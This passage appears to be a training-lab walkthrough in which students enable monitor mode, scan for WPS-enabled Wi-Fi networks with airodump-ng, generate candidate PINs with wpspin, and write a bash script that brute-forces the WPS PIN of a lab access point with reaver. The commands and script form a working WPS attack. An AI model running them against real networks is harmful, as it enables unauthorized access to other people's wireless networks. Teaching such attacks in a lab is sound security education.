 ```
root@WiFiIntro:/home/wifi# iw dev wlan0 interface add mon0 type monitor
root@WiFiIntro:/home/wifi# ifconfig mon0 up
```

Subsequently, students will use `airodump-ng` to scan the environment and obtain the MAC address of the `CyberNetSecure` network:

Code: shell

```shell
airodump-ng mon0 --wps
```

```
root@WiFiIntro:/home/wifi# airodump-ng mon0 --wps

 CH 11 ][ Elapsed: 0 s ][ 2024-11-04 11:27 

 BSSID              PWR  Beacons    #Data, #/s  CH   MB   ENC CIPHER  AUTH WPS    ESSID

 60:38:E0:12:4F:A2  -28        3        0    0   1   54   WPA2 CCMP   PSK  2.0    HackTheWifi                                                 
 EE:57:22:A8:C0:F7  -28        3        0    0   1   54   WPA2 CCMP   PSK  2.0    HTB-Wireless                                                
 D8:D7:3D:EB:29:D5  -28        3        0    0   1   54   WPA2 CCMP   PSK  2.0    CyberNetSecure 
```

With the attained MAC address of the network, students will use `wpspin` to generate potential PINs:

Code: shell

```shell
wpspin -A D8:D7:3D:EB:29:D5 | grep -Eo '\b[0-9]{8}\b' | tr '\n' ' '
```

```
root@WiFiIntro:/home/wifi# wpspin -A D8:D7:3D:EB:29:D5 | grep -Eo '\b[0-9]{8}\b' | tr '\n' ' ' 

54116696 35154778 88218458 35929178 67904853 98126934 83901010 24855044 92858114 51432669 16664913 13655464 08233387 62350075 96225462 55764247 34075920 12345670 20172527 46264848 76229909 62327145 10864111 31957199 30432031 71412252 68175542 95661469 95719115 48563710 20854836 43977680 05294176 99956042 35611530 67958146 34259283 94229882 95755212
```

Students will use the provided bash script in the section altering the `PINS` variable based on the previously generated PINs and adjusting the MAC address obtained earlier:

Code: shell

```shell
cat << EOF > pinguess.sh
#!/bin/bash

PINS='54116696 35154778 88218458 35929178 67904853 98126934 83901010 24855044 92858114 51432669 16664913 13655464 08233387 62350075 96225462 55764247 34075920 12345670 20172527 46264848 76229909 62327145 10864111 31957199 30432031 71412252 68175542 95661469 95719115 48563710 20854836 43977680 05294176 99956042 35611530 67958146 34259283 94229882 95755212'

for PIN in \$PINS
do
   if sudo reaver --max-attempts=1 -l 100 -r 3:45 -i mon0 -b D8:D7:3D:EB:29:D5 -c 1 -p \$PIN > /dev/null 2>&1; then
	    echo "[+] WPS PIN Found: \$PIN"
	    break
   fi	
done
echo "PIN Guesses Complete"
EOF
```